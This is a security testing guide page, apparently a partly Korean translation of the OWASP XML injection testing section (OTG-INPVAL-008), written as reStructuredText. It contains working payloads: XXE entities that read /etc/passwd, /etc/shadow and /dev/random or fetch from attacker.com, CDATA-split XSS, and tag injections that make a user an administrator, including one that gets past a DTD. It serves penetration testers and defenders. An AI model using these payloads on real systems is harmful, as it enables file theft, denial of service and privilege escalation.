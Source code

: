 ============================================================================================
OTG-INPVAL-008
============================================================================================

|

XML 인젝션 테스트

|

Summary
============================================================================================

XML 인젝션 테스트는 침투 테스터가 어플리케이션에 XML 문서를 삽입하려 할 때 입니다.
만약 XML 파서가 문맥 데이터를 검증하는데 실패하면, 테스트가 긍정적인 결과를 산출할 것입니다.
이 섹션은 XML 삽입의 실제 사례를 설명합니다.
우선 XML 스타일의 통신을 정의하고, 그 동작 원리를 설명합니다.
그런 다음, XML 메타 문자를 삽입하는 검색 방법에 대해 설명합니다.
첫번째 단계가 수행되면, 침투 테스터는 XML 구조에 대한 정보를 가지고, 
XML 데이터 및 태그를 인젝션 시도하는 것이 가능할 것입니다

|

How to Test
============================================================================================

아래 처럼 사용자 등록을 수행하기 위해 XML 스타일 통신을 사용하는 웹 어플리케이션이 있다고 가정합니다.
계정이 생성이 되면, xmlDb 파일에 <user> 노드가 새로 추가됩니다.

.. code-block:: xml

    <?xml version=”1.0” encoding=”ISO-8859-1”?>
    <users>
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail>
        </user>
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail>
        </user>
    </users>


예를 들어, 다음 값이 있습니다.

.. code-block:: xml

    Username: tony
    Password: Un6R34kb!e
    E-mail: s4tan@hell.com

요청을 진행합니다.

.. code-block:: console

    http://www.example.com/addUser.php?username=tony&password=Un6R34kb!e&email=s4tan@hell.com

어플리케이션에서는 다음 노드가 빌드됩니다.

.. code-block:: xml

    <user> 
        <username>tony</username> 
        <password>Un6R34kb!e</password>
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user>

다음 xmlDB에 추가될 것입니다.

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users> 
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user> 
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user>
            <username>tony</username>
            <password>Un6R34kb!e</password>
            <userid>500</userid>
            <mail>s4tan@hell.com</mail> 
        </user> 
    </users> 

|

Discovery
-------------------------------------------------------------------------------------------

어플리케이션에 XML 삽입 취약점이 존재하는지 테스트하기 위해 XML 메타 문자를 삽입하는 부분을 
확인합니다.

**XML metacharacters**

- 싱글 쿼트: ' 

필터링하지 않을 경우, 인젝션된 값이 태그의 속성 값의 일부가 될 것입니다. XML 파싱 동안 예외가 발생될 수 있습니다.

예를 들어 다음과 같은 속성이 있다고 가정합니다.

.. code-block:: xml

    <node attrib='$inputValue'/

그래서 만약 아래와 같이 삽입되면 다음과 같이 속성 값이 삽입됩니다.

.. code-block:: xml

    inputValue = foo'

    <node attrib='foo''/> 

then, the resulting XML document is not well formed. 

|

- 더블 쿼트: " 

이 문자도 싱글 쿼트와 같으며, 속성 값이 더블 쿼트로 묶여 있는 경우 사용될 수 있습니다.

.. code-block:: xml

    <node attrib="$inputValue"/> 

그래서 만약 아래와 같이 삽입되면 다음과 같이 속성 값이 삽입됩니다.

.. code-block:: xml

    $inputValue = foo" 

    <node attrib="foo""/> 

and the resulting XML document is invalid. 

|

- 부등 기호: >, < 

다음과 같이 입력 부분에 개방 또는 폐쇄 괄호를 추가합니다.

.. code-block:: xml

    Username = foo< 

어플리케이션에 다음과 같이 빌드됩니다.

.. code-block:: xml

    <user> 
        <username>foo<</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user> 

but, because of the presence of the open '<', the resulting XML document is invalid. 

|

- 주석 태그: <!--/--> 

해당 문자열은 주석의 시작과 종료로 해석됩니다. 

.. code-block:: xml

    Username = foo<!-

어플리케이션에서 다음과 같이 입력되게 됩니다.

.. code-block:: xml

    <user> 
        <username>foo<!--</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid>
        <mail>s4tan@hell.com</mail> 
    </user> 

which won't be a valid XML sequence. 

|

- 앰퍼센드: & 

앰퍼센드는 엔티티를 표현하기 위한 XML 구문으로 사용됩니다. 엔티티의 형식은 '&symbol;' 입니다.
앤티티는 유니 코드 문자 집합의 문자에 매핑된다.

[예제]

.. code-block:: xml
    
    <tagnode>&lt;</tagnode> 

위 문자는 '<' 로 표현됩니다.

만약 '&' 가 &amp; 로 자체 인코딩되지 않아, XML 인젝션을 테스트하는 데 사용됩니다. 

사실상, 만약 입력이 다음과 같다면 새로운 노드가 아래와 같이 생성될 것입니다.

.. code-block:: xml

    Username = &foo 


.. code-block:: xml

    <user> 
        <username>&foo</username> 
        <password>Un6R34kb!e</password> 
        <userid>500</userid> 
        <mail>s4tan@hell.com</mail> 
    </user> 

but, again, the document is not valid: &foo is not terminated with ';' and the &foo; entity is undefined. 

|

- CDATA section delimiters: <![CDATA[ / ]]> 

CDATA sections are used to escape blocks of text containing characters which would otherwise be recognized as markup. In other words, characters enclosed in a CDATA section are not parsed by an XML parser. For example, if there is the need to represent the string '<foo>' inside a text node, a CDATA section may be used: 

.. code-block:: xml

    <node>
        <![CDATA[<foo>]]> 
    </node>

so that '<foo>' won't be parsed as markup and will be considered as character data. 

If a node is built in the following way: 

.. code-block:: xml

    <username><![CDATA[<$userName]]></username> 

the tester could try to inject the end CDATA string ']]>' in order to try to invalidate the XML document. 

.. code-block:: xml

    userName = ]]> 

this will become: 

.. code-block:: xml

    <username><![CDATA[]]>]]></username> 

which is not a valid XML fragment. 

Another test is related to CDATA tag. Suppose that the XML document is processed to generate an HTML page. In this case, the CDATA section delimiters may be simply eliminated, without further inspecting their contents. Then, it is possible to inject HTML tags, which will be included in the generated page, completely bypassing existing sanitization routines. 

Let's consider a concrete example. Suppose we have a node containing some text that will be displayed back to the user. 

.. code-block:: xml

    <html>
        $HTMLCode
    </html> 

Then, an attacker can provide the following input: 

.. code-block:: xml

    $HTMLCode = <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]> 

and obtain the following node: 

.. code-block:: xml

    <html>
        <![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/ script<![CDATA[>]]> 
    </html> 

During the processing, the CDATA section delimiters are eliminated, generating the following HTML code: 

.. code-block:: xml

    <script>alert('XSS')</script> 

The result is that the application is vulnerable to XSS. 


**External Entity:**

The set of valid entities can be extended by defining new entities. If the definition of an entity is a URI, the entity is called an external entity. Unless configured to do otherwise, external entities force the XML parser to access the resource specified by the URI, e.g., a file on the local machine or on a remote systems. This behavior exposes the application to XML eXternal Entity (XXE) attacks, which can be used to perform denial of service of the local system, gain unauthorized access to files on the local machine, scan remote machines, and perform denial of service of remote systems. 

To test for XXE vulnerabilities, one can use the following input: 

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ 
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file://dev/random" >]><foo>&xxe;
    </foo> 

This test could crash the web server (on a UNIX system), if the XML parser attempts to substitute the entity with the contents of the /dev/random file. 
Other useful tests are the following: 

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >

    <!ENTITY xxe SYSTEM "file://etc/passwd" >]><foo>&xxe;</foo>
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >

    <!ENTITY xxe SYSTEM "file://etc/shadow" >]><foo>&xxe;</foo>
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >

    <!ENTITY xxe SYSTEM "file://c:/boot.ini" >]><foo>&xxe;</foo>
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" 
    >]><foo>&xxe;</foo> 

|

Tag Injection 
-------------------------------------------------------------------------------------------

Once the first step is accomplished, the tester will have some information about the structure of the XML document. Then, it is possible to try to inject XML data and tags. We will show an example of how this can lead to a privilege escalation attack.

Let's considering the previous application. By inserting the following values: 

.. code-block:: xml

    Username: tony 
    Password: Un6R34kb!e 
    E-mail: s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com 

the application will build a new node and append it to the XML database: 

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users> 
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user> 
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password>
            <userid>500</userid>
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user>
            <username>tony</username>
            <password>Un6R34kb!e</password>
            <userid>500</userid>
            <mail>s4tan@hell.com</mail><userid>0</userid><mail>s4tan@hell.com</mail> 
        </user>
    </users> 

The resulting XML file is well formed. Furthermore, it is likely that, for the user tony, the value associated with the userid tag is the one appearing last, i.e., 0 (the admin ID). In other words, we have injected a user with administrative privileges. The only problem is that the userid tag appears twice in the last user node. Often, XML documents are associated with a schema or a DTD and will be rejected if they don't comply with it. 

Let's suppose that the XML document is specified by the following DTD: 

.. code-block:: xml

    <!DOCTYPE users [
        <!ELEMENT users (user+) >
        <!ELEMENT user (username,password,userid,mail+) >
        <!ELEMENT username (#PCDATA) >
        <!ELEMENT password (#PCDATA) >
        <!ELEMENT userid (#PCDATA) >
        <!ELEMENT mail (#PCDATA) > 
    ]> 

Note that the userid node is defined with cardinality 1. In this case, the attack we have shown before (and other simple attacks) will not work, if the XML document is validated against its DTD before any processing occurs. 

However, this problem can be solved, if the tester controls the value of some nodes preceding the offending node (userid, in this example). In fact, the tester can comment out such node, by injecting a comment start/end sequence: 

.. code-block:: xml

    Username: tony 
    Password: Un6R34kb!e</password>
    <!-E-mail: --><userid>0</userid><mail>s4tan@hell.com 

In this case, the final XML database is: 

.. code-block:: xml

    <?xml version="1.0" encoding="ISO-8859-1"?> 
    <users>
        <user>
            <username>gandalf</username>
            <password>!c3</password>
            <userid>0</userid>
            <mail>gandalf@middleearth.com</mail> 
        </user>
        <user>
            <username>Stefan0</username>
            <password>w1s3c</password> 
            <userid>500</userid> 
            <mail>Stefan0@whysec.hmm</mail> 
        </user> 
        <user> 
            <username>tony</username> 
            <password>Un6R34kb!e</password><!--</password> 
            <userid>500</userid> 
            <mail>--><userid>0</userid><mail>s4tan@hell.com</mail> 
        </user> 
    </users> 


The original userid node has been commented out, leaving only the injected one. The document now complies with its DTD rules. 

|

Tools 
============================================================================================

- XML Injection Fuzz Strings (from wfuzz tool) - 

https://wfuzz.googlecode.com/svn/trunk/wordlist/Injections/ XML.txt 

|

References 
============================================================================================

**Whitepapers**
 
Alex Stamos: "Attacking Web Services" - 

http://www.owasp.org/images/d/d1/AppSec2005DC-Alex_Stamos-Attacking_Web_Services.ppt 

Gregory Steuck, "XXE (Xml eXternal Entity) attack", 

http://www.securityfocus.com/archive/1/297714 

|
